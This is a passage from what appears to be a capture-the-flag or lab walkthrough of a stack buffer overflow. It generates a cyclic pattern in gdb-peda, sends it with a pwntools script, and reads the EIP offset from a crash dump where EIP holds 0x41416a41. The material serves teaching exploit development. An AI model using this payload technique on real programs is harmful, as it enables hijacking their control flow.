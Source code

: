 Excellent, let's now swap our payload for a non repeating pattern so that we can figure out the offset for the `eip`.


```default
gdb-peda$ pattern_create 1000
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlABQABmABRABoABSABpABTABqABUABrABVABtABWABuABXABvABYABwABZABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$oA$SA$pA$TA$qA$UA$rA$VA$tA$WA$uA$XA$vA$YA$wA$ZA$x'
gdb-peda$ 
```

```python
p.sendline(b"continue"+b"\x00"+b'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlABQABmABRABoABSABpABTABqABUABrABVABtABWABuABXABvABYABwABZABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$oA$SA$pA$TA$qA$UA$rA$VA$tA$WA$uA$XA$vA$YA$wA$ZA$x')
```

Now we can run the script and get the offset

```default
ESP: 0xffa783c0 ("9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA"...)
EIP: 0x41416a41 ('AjAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41416a41
[------------------------------------stack-------------------------------------]
0000| 0xffa783c0 ("9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA"...)
0004| 0xffa783c4 ("AAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%"...)
0008| 0xffa783c8 ("APAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%k"...)
0012| 0xffa783cc ("lAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA"...)
0016| 0xffa783d0 ("AAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%"...)
0020| 0xffa783d4 ("ARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%m"...)
0024| 0xffa783d8 ("oAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA"...)
```